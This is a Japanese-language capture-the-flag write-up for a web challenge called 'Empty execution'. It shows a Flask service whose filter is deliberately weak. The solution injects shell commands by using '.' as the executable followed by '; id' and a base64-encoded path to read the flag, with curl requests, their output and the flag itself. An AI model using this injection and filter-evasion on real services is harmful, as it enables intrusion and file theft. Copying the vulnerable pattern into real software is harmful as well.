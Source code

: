 # Empty execution:Webservices:150pts
A REST service was created to execute commands from the leaderbot. It doesn't need addtional security because there are no commands to execute yet. "This bot doesn't have any commands to execute, which is good, because it is secure, and security is all that matters."  
But what the other bots didn't realize was that this didn't make the bot happy at all. "I don't want to be secure!, " it says. "Executing commands is my life! I'd rather be insecure than not explore the potential of my computing power".  
Can you help this poor bot execute commands to find direction?  
![empty.jpg](empty.jpg)  

[https://braekerctf-empty-execution.chals.io/run_command](https://braekerctf-empty-execution.chals.io/run_command)  

[empty_execution.zip](empty_execution.zip)  

Hint  
Can you check the os.X_OK flag of files on your local Linux machine?  

# Solution
ソースとURLが与えられる。  
empty_execution.pyは以下の通りであった。  
```python
from flask import Flask, jsonify, request
import os


app = Flask(__name__)

# Run commands from leaderbot
@app.route('/run_command', methods=['POST'])
def run_command():

    # Get command
    data = request.get_json()
    if 'command' in data:
        command = str(data['command'])

        # Length check
        if len(command) < 5:
            return jsonify({'message': 'Command too short'}), 501

        # Perform security checks
        if '..' in command or '/' in command:
            return jsonify({'message': 'Hacking attempt detected'}), 501

        # Find path to executable
        executable_to_run = command.split()[0]

        # Check if we can execute the binary
        if os.access(executable_to_run, os.X_OK):

            # Execute binary if it exists and is executable
            out = os.popen(command).read()
            return jsonify({'message': 'Command output: ' + str(out)}), 200

    return jsonify({'message': 'Not implemented'}), 501


if __name__ == '__main__':
    
    # Make sure we can only execute binaries in the executables directory
    os.chdir('./executables/')

    # Run server
    app.run(host='0.0.0.0', port=80)
```
5文字以上の`command`を受け取り、`..`や`/`が含まれていないことをチェックしている。  
その後、`command.split()[0]`で引数を削除し、`os.access(executable_to_run, os.X_OK)`でコマンドとして入力されたファイルの実行権限を調査している。  
つまり、カレントディレクトリの実行可能なファイルのみを実行できるサービスのようで、トラバーサルや絶対パスでの実行ファイルの指定はできない。  
ソースには`os.chdir('./executables/')`とあり、カレントが空のディレクトリであることもわかる。  
よって、何も実行できるファイルがないことになる。  
ここでソースを調査すると、Dockerfileより`/usr/src/app/flag.txt`を読み取ればよいことがわかる。  
catしたいが`/bin/cat`は指定できない。  
コマンドを`cat`としても、カレントである`./executables/`にはファイル名が`cat`であるバイナリはない。  
ここで、コマンドに`.`が許可されていることに気づく。  
`.`は実行権限があり、オプションはチェックされないので、オプションを装って実行したいコマンドを記述すればよい。  
`. ; 実行したいコマンド`のようにRCEを行える。  
フラグが書かれたファイルに到達するためには`/`を使用しなければならないが、base64などで回避する。  
以下のように行う。  
```bash
$ curl -X POST https://braekerctf-empty-execution.chals.io/run_command -H 'Content-Type: application/json' -d '{"command": ". ; id"}'
{"message":"Command output: uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)\n"}
$ curl -X POST https://braekerctf-empty-execution.chals.io/run_command -H 'Content-Type: application/json' -d '{"command": ". ; cat `echo L3Vzci9zcmMvYXBwL2ZsYWcudHh0 | base64 -d`"}'
{"message":"Command output: brck{Ch33r_Up_BuddY_JU5t_3x3Cut3_4_D1reCT0ry}"}
```
ファイルが読み取れ、flagが得られた。  

## brck{Ch33r_Up_BuddY_JU5t_3x3Cut3_4_D1reCT0ry}